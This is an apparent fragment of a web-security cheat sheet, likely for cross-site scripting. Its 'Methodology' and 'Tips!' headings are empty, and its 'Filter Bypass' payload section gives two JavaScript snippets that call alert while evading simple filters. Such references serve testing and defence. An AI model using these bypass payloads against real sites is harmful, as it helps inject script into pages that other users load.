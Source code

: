 
### 1.Methodology


### 2.Tips!


### 3.Payloads

#### Filter Bypass
```
[1].map(alert)
(alert)(1)
```
